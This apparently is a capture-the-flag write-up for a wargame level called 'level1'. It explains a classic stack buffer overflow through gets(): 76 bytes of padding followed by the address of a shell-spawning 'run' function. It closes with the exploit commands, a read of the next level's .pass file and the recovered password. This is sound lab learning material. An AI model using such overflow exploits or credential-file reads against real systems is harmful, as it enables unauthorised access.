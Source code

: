 solution level1:

-> we disassemble the main and see that space is allocated on the stack and the method gets is called
...
0x08048486 <+6>:	sub    esp,0x50
0x08048489 <+9>:	lea    eax,[esp+0x10]
0x0804848d <+13>:	mov    DWORD PTR [esp],eax
0x08048490 <+16>:	call   0x8048340 <gets@plt>
...

-> from the man of gets:
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.

-> the program has a function called "run", which calls the method system to open a new shell with execution rights

-> we can use the gets method and exploit its vulnerability to buffer overflows. For this, we simply fill the stack until we reach the instruction pointer and replace it with the desired address

-> the buffer is 64 bytes long, and we also have to take into account the stack alignment (8 bytes) and the saved ebp (4 bytes), for a total of 76 bytes

-> so we fill the buffer with 76 bytes, and then add the address of function run, which is 0x08048444 (we reverse to little-endian). This will replace the address in the saved eip with the address of run, effectively calling it when we leave the main

> scp -P 2222 Ressources/run.sh level1@127.0.0.1:/tmp/

> bash -x /tmp/run.sh
> cat /tmp/overf - | ./level1
> cat /home/user/level2/.pass
> 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
